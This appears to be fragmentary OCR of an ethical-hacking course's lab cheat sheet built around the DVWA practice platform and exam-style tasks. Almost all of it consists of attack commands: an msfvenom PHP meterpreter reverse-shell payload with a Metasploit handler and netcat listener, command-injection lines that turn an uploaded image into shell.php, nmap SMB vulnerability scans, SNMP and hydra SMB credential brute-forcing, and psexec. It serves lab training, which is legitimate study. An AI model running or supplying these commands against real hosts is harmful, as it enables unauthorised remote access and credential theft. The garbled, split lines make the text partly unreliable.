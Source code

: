 connection

=========================================
Use File Upload Vulnerability in DVWA platform and read a file from server (Web App File Upload Exploitation)

Mod-14 Page- 90 V.10
Mod-14 Page- 118 V.11

msfvenom -p php/meterpreter/reverse_tcp lhost=10.10.10.11 lport=4444 -f raw
Msfconsole
use multi/handler
set payload php/meterpreter/reverse_tcp
set lhost 192.168.92.131
set lport 4444
run
DVWA Security Low
DVWA Security Medium
Need to use burpsuite
DVWA Security High
GIF98
|copy C:\wamp64\www\DVWA\hackable\uploads\upload.jpg
C:\wamp64\www\DVWA\hackable\uploads\shell.php
Nc -nvlp 4444
|cp /var/www/dvwa/hackable/uploads/hack.jpg
/var/www/dvwa/hackable/uploads/hack2.php

8. An important file has been hidden in the Server 2019 machine in the directory mentioned below. You are an ethical hacker working with a company. You have been assigned the task to retrieve the file "SECRET.txt" using a backdoor that was installed in the server. Enter the secret number hidden in the file.
Path: C:\Administrator\Documents\Findme.

Mod-6 Page- 99 V.10
nmap --script vuln 192.168.31.1
nmap -p 445 -A 192.168.1.101
nmap --script smb-vuln* -p 445 IP
nmap --script smb-os-discovery.nse -p
445 IP
Mod-4 Page- 88 V.10
nmap -sU -p 161 --script=snmp-brute
10.10.10.12
use auxiliary/scanner/snmp/snmp_login
set RHOSTS 10. 10.10.12
exploit OR use below command
use
auxiliary/scanner/snmp/snmp_enum
OR use below command
hydra -L user.txt -P pass.txt
192.168.1.101 smb
use exploit/windows/smb/psexec
